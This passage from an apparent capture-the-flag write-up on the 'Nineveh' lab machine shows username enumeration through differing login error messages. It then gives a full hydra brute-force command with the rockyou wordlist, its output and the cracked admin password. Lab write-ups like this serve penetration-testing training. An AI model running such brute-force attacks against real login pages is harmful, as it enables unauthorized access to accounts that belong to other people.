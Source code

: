 On its source code, I found this comment.
`<!-- @admin! MySQL is been installed.. please fix the login page! ~amrois -->`
There might be a user `amrois`, and mysql is running.

![](attachments/nineveh_5.png)

I observed the response, and found out that the username `admin` exists, given the error message "Invalid Password!", while non-existing username returns "Invalid Username!".

Let's try brute-force using `hydra`.

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^:F=Invalid Password"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-24 05:45:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://nineveh.htb:80/department/login.php:username=^USER^&password=^PASS^:F=Invalid Password
[STATUS] 869.00 tries/min, 869 tries in 00:01h, 14343530 to do in 275:06h, 16 active
[STATUS] 833.67 tries/min, 2501 tries in 00:03h, 14341898 to do in 286:44h, 16 active
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-24 05:51:02
```

The found password for `admin` is `1q2w3e4r5t`.

After sign-in, on "Notes" tab, I can find the following message from `amrois` :

![](attachments/nineveh_7.png)
